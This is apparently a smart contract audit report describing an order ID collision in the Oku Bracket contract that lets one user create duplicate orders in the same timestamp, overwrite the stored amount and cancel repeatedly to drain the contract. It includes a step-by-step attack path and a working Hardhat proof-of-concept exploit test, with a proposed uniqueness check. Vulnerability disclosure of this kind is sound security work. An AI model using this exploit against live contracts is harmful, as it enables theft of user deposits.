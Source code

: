 Boxy Ash Ant

High

# Order ID Collision Vulnerability Leading to Protocol Fund Drain

### Summary

The protocol's order ID generation mechanism, which uses a combination of sender address and timestamp, is vulnerable to ID collisions when multiple orders are created within the same timestamp. This allows an attacker to overwrite order amounts while maintaining multiple references to the same order ID, enabling them to withdraw more funds than deposited through repeated cancellations.



### Root Cause

The vulnerability stems from two critical issues. orderId is generated using timestamp and sender values. But different transactions can have the same timestamp or a contract can be implemented that creates multiple orders in the same transaction.

```solidity
// In AutomationMaster.sol
function generateOrderId(address sender) public view returns (uint96) {
    return uint96(uint256(keccak256(abi.encodePacked(sender, block.timestamp))));
}
```
Because of this the orders mapping gets overwritten with the latest order details. The pendingOrderIds array accumulates duplicate IDs. 

```solidity
// In Bracket.sol
// In Bracket.sol
mapping(uint96 => Order) public orders;           // Stores order details
uint96[] public pendingOrderIds;                  // Stores order IDs for tracking

function createOrder(...) {
    uint96 orderId = MASTER.generateOrderId(msg.sender);
    
    // First issue: Overwrites existing order with same ID
    orders[orderId] = Order({
        amountIn: newAmount,      // New amount overwrites old amount
        tokenIn: newToken,
        // ... other fields
    });
    
    // Second issue: Adds duplicate ID to pending orders
    pendingOrderIds.push(orderId);  // Adds same ID multiple times
}
```
https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L496

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Attacker creates first order with small amount:
2. Creates second order with large amount in same timestamp:
3. Both orders reference same ID in pendingOrderIds
4. Attacker cancels order multiple times or his orders filled multiple times
5. Attacker receives large amount multiple times and drains the contract


### Impact

Attacker can withdraw multiple times the deposited amount and drain the contract

### PoC

```ts
//@note   Enable the 'allowBlocksWithSameTimestamp' option 
describe("Execute attac", () => {

    const stopDelta = ethers.parseUnits("500", 8)
    const strikeDelta = ethers.parseUnits("100", 8)
    const strikeBips = 500
    const stopBips = 5000
    const swapInBips = 500

    let orderId: BigInt
    //setup
    before(async () => {
        //steal money for s.Bob
        await stealMoney(s.usdcWhale, await s.Bob.getAddress(), await s.USDC.getAddress(), s.usdcAmount)
        //reset test oracle price
        await s.wethOracle.setPrice(s.initialEthPrice)
        await s.usdcOracle.setPrice(s.initialUsdcPrice)
        await s.uniOracle.setPrice(s.initialUniPrice)
        await s.arbOracle.setPrice(s.initialArbPrice)
        let initial = await s.Master.checkUpkeep("0x")
        expect(initial.upkeepNeeded).to.eq(false)
    })


    it("Create order in same timestamp", async () => {
        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())
        await s.USDC.connect(s.Bob).approve(await s.Bracket.getAddress(), s.usdcAmount)

        const randomTokenOut = ethers.Wallet.createRandom().address
        await s.WETH.connect(s.Bob).approve(await s.Bracket.getAddress(), 10n * s.wethAmount)

        const timestamp = Math.floor(Date.now() / 1000)
        await network.provider.send("evm_setNextBlockTimestamp", [timestamp])

        // @ deposit small amount first and bigger amount after
        let amount1 = ethers.parseEther("0.1")
        let amount2 = ethers.parseEther("1")

        await s.Bracket.connect(s.Bob).createOrder(
            "0x",
            currentPrice + strikeDelta,
            currentPrice - stopDelta,
            amount1,
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Bob.getAddress(),
            5,//5 bips fee
            strikeBips,
            stopBips,
            false,//no permit
            "0x"
        )
        //Use the same timestamp 
        await network.provider.send("evm_setNextBlockTimestamp", [timestamp])
        await s.Bracket.connect(s.Bob).createOrder(
            "0x",
            currentPrice + strikeDelta,
            currentPrice - stopDelta,
            amount2,
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Bob.getAddress(),
            5,//5 bips fee
            strikeBips,
            stopBips,
            false,//no permit
            "0x"
        )


        const filter = s.Bracket.filters.OrderCreated
        const events = await s.Bracket.queryFilter(filter, -1)
        const event = events[0].args
        orderId = event[0]
        expect(Number(event[0])).to.not.eq(0, "Third order")


        //verify pending order exists
        const list = await s.Bracket.getPendingOrders()
        expect(list[0]).to.eq(orderId, "First order Id")
        expect(list[1]).to.eq(orderId, "First order Id")


        await stealMoney(s.wethWhale, await s.Bracket.getAddress(), await s.WETH.getAddress(), s.wethAmount)
        const balance = await s.WETH.balanceOf(await s.Bracket.getAddress())
        expect(balance).to.be.eq(amount1 + amount2 + s.wethAmount, "WETH received")

        await s.Bracket.connect(s.Bob).cancelOrder(orderId.toString())
        await s.Bracket.connect(s.Bob).cancelOrder(orderId.toString())

        // User deosited 0.1 + 1 eth and when canceled recieved 2 eth
        const balanceAfter = await s.WETH.balanceOf(await s.Bracket.getAddress())
        expect(balanceAfter).to.be.eq(s.wethAmount + amount1 - amount2, "WETH received")

    })
})
```


### Mitigation

Imlement different system for orderId creation and add order ID uniqueness check

```solidity
require(orders[orderId].amountIn == 0, "Order ID already exists");
```